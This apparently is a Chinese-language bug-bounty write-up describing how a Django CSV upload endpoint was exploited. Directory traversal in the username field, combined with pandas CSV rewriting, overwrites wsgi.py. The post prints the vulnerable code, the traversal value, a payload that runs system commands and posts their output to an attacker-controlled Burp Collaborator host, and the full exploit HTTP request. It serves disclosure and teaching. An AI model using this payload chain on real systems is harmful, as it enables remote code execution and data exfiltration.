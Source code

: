 #  如何在 Django 应用程序中链接目录遍历和 CSV 解析器滥用以进行 RCE  
 Ots安全   2025-07-01 13:14  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
  
在测试一个 Web 应用程序（作为漏洞赏金计划的一部分）时，我发现了一个严重的 RCE 漏洞，该漏洞利用了目录遍历和巧妙的 CSV 解析滥用。该漏洞利用链结合了目录遍历和巧妙地滥用应用程序使用pandasCSV 解析器的方式，最终允许我覆盖wsgi.py文件并在服务器端执行任意代码。  
  
应用程序行为  
  
存在漏洞的端点允许用户上传 CSV 文件，使用 处理它们pandas，并将结果保存到磁盘。目标函数如下所示：  
  
```
username = request.data.get("username")        upload_file = request.FILES.get("csv_file")        temp_path = f"/tmp/{upload_file.name}"        with open(temp_path, "wb") as out_file:            for chunk in upload_file.chunks():                out_file.write(chunk)        # Parse uploaded CSV        df = pandas.read_csv(temp_path)        # Determine output path        base_dir = Path(__file__).resolve().parent.parent        save_dir = os.path.join(base_dir, "data_store", username)        os.makedirs(save_dir, exist_ok=True)        final_path = os.path.join(save_dir, upload_file.name)        if os.path.exists(final_path):            os.remove(final_path)        df.to_csv(final_path, index=False, encoding="utf-8")        return Response({"status": "success"}, status=200)    except Exception ase:        return Response({"error": str(e)}, status=500)
```  
  
  
这里有两个关键的观察结果：  
- 该username字段直接用于文件系统路径，无需清理。  
  
- 往返发生在保存文件之前pandas.read_csv()。df.to_csv()  
  
这种设置使得制作劫持文件写入位置并在系统上执行代码的有效载荷成为可能。  
  
从路径遍历到文件覆盖  
  
该username字段是受信任的，并用于构建类似 的路径data_store/<username>/file.csv。我只需提交如下值：  
  
```
../../../../../../app/backend/backend/
```  
  
  
结果，应用程序将我上传的文件写入：  
  
```
/app/backend/backend/file.csv
```  
  
  
通过 CSV 构建有效的 Payload  
  
难点在于如何将代码导入wsgi.py而不引发语法错误。应用会用 解析文件pandas.read_csv()，然后用 重新序列化to_csv()。这意味着我上传的文件在导入之前会被重写wsgi.py。  
  
以下是具体pandas.to_csv()操作：  
- 默认写入标题。  
  
- 用逗号填充行以匹配最大列数。  
  
- 将每个单元格值写为字符串，并可能引用它。  
  
所以我需要我的有效载荷：  
1. 避免在 CSV 解析过程中出现混乱。  
  
1. 添加额外的逗号后仍然是有效的 Python。  
  
诀窍是使用 把我的恶意代码行放在注释中#。这并不能对 Pandas 隐藏它——它会像解析其他行一样解析它——但可以确保to_csv()在文件运行时，Python 会忽略由 添加的任何尾随垃圾代码。Python 会忽略#一行中 a 之后的所有内容，因此即使 a 后面pandas.to_csv()添加了多余的逗号或空格，它们也会被视为注释的一部分并被解释器丢弃。  
  
以下是嵌入在看似无害的 CSV 中的实际有效载荷行：  
  
```
# VALID CSV DATAimport os,requests;from django.core.wsgi import get_wsgi_application;os.environ.setdefault('DJANGO_SETTINGS_MODULE','backend.settings');r=os.popen('whoami&&id&&hostname').read();requests.post('<http://attacker.burpcollaborator.net>',data={'r':r});application = get_wsgi_application();,,,,,
```  
  
  
经过pandas的处理之后，在Python看来它仍然像是一行注释，但里面却包含足够的真实逻辑来实现代码执行和重新分配application，满足了Django的期望。  
  
选择正确的代码执行目标  
  
在这个阶段，文件覆盖正在起作用——但要将其升级到 RCE，我需要找到一个应用程序在修改后会自动加载或执行的文件，因为我无法直接手动调用被覆盖的文件。这意味着我需要找到一个 Django 会在访问时隐式重新导入或重新运行的服务器端脚本。于是，我找到了wsgi.py……  
  
为什么是 wsgi.py？  
  
根据WSGI 规范，该wsgi.py文件用于公开一个名为的可调用函数application，作为 Web 服务器与 Python 应用交互的入口点。在 Django 中，通常使用以下方式完成此操作：  
  
```
from django.core.wsgi import get_wsgi_applicationapplication = get_wsgi_application()
```  
  
  
在测试过程中，一条冗长的错误消息泄露了项目的文件结构。回溯中包含如下路径：  
  
```
/app/backend/backend/
```  
  
  
这种嵌套布局正是使用 - 创建 Django 应用程序时所获得的，django-admin startproject backend其中外层backend/是项目根，内层包含设置wsgi.py、和其他核心文件。  
  
这简直就是wsgi.py完美的目标。我无法运行任意文件，只能覆盖它们——所以我需要一些服务器可以自行执行的代码。Django 的开发服务器会监视wsgi.py更改，并在修改时自动重新加载。这意味着只需触碰文件即可触发执行。通过将我的有效载荷放在 Python 注释中，并以一行空application = get_wsgi_application()行结尾，我保留了 Django 预期的结构，同时实现了远程代码执行。  
  
最终漏洞利用请求  
  
以下是用于实现覆盖的修剪后的 HTTP 请求：  
  
```
POST/api/endpoint HTTP/1.1Host: target.urlContent-Type: multipart/form-data; boundary=---------------------------boundaryCookie: session=...-----------------------------boundaryContent-Disposition: form-data; name="fleet_csv"; filename="wsgi.py"Content-Type: text/csv# VALID CSV DATAimport os,requests;from django.core.wsgi import get_wsgi_application;os.environ.setdefault('DJANGO_SETTINGS_MODULE','backend.settings');r=os.popen('whoami&&id&&hostname').read();requests.post('<http://attacker.burpcollaborator.net>',data={'r':r});application = get_wsgi_application();,,,,,-----------------------------boundaryContent-Disposition: form-data; name="report_date"2025-01-01-----------------------------boundaryContent-Disposition: form-data; name="username"../../../../../../app/backend/backend/-----------------------------boundary--
```  
  
  
响应确认成功：  
  
```
{"status": "success"}
```  
  
  
几秒钟后，我的服务器收到了带有命令输出的回调。  
  
结论  
  
此次漏洞利用的可能原因如下：  
- 文件系统路径中用户输入的使用未经净化。  
  
- 使用不安全的文件解析和重写pandas。  
  
- Django 在调试模式下的自动重新加载行为。  
  
通过组合这些行为，我能够从基本的文件上传到服务器上的完整 RCE。这里真正的教训是，即使是像 CSV 解析这样看似无害的操作，在错误的环境中也可能变得危险——尤其是在与文件系统访问和自动执行的服务器文件相结合时。  
  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这里**  
  
